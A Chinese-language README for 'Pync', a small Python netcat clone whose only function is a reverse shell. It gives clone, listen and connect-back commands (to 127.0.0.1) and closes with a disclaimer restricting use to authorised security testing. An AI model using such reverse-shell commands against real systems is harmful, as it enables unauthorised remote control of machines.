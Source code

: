 # python版简易nc

## 介绍

1. 使用socket建立网络传输
2. 解决了tcp粘包问题
3. 仅支持反弹操作

## 安装

环境

```
python >= 3.7
windows/linux
```

安装

````
git clone https://github.com/1derian/Pync.git
cd Pync
````

## 使用

监听

```
python3 nc.py -p 5656
```

反弹

```
python3 nc.py -r 127.0.0.1 -p 5656 
```

此时监听方收到反弹的shell

![image-20220712154023200](./readme.assets/image-20220712154023200.png)

退出

```
exit
```

## 免责声明🧐

本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建测试环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。
